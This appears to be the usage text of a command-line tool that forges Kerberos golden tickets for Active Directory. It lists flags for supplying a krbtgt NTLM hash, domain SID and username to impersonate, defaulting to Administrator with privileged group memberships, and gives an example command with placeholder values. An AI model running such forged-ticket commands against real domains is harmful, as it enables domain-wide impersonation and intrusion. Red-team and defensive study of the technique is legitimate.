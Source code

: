 ### Kerberos golden ticket generation script

**Required: -domain, -sid, -krbtgt**

Example: `./golden -domain CONTOSO.COM -sid S-1-5-21-1234567890-1234567890-1234567890-500 -krbtgt aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`

`-dc` Domain Controller FQDN (e.g., dc1.contoso.com)

`-domain` Domain name (e.g., contoso.com)

`-duration` Ticket validity in hours (default 10)

`-groups` Group IDs (comma separated) (default "513,512,520,518,519")

`-id` User ID (RID) (default 500)

`-krbtgt` NTLM hash of krbtgt account

`-out` Output file (default: stdout)

`-sid` User's SID (e.g., S-1-5-21-1234567890-1234567890-1234567890-500)

`-user` Username to impersonate (default "Administrator")
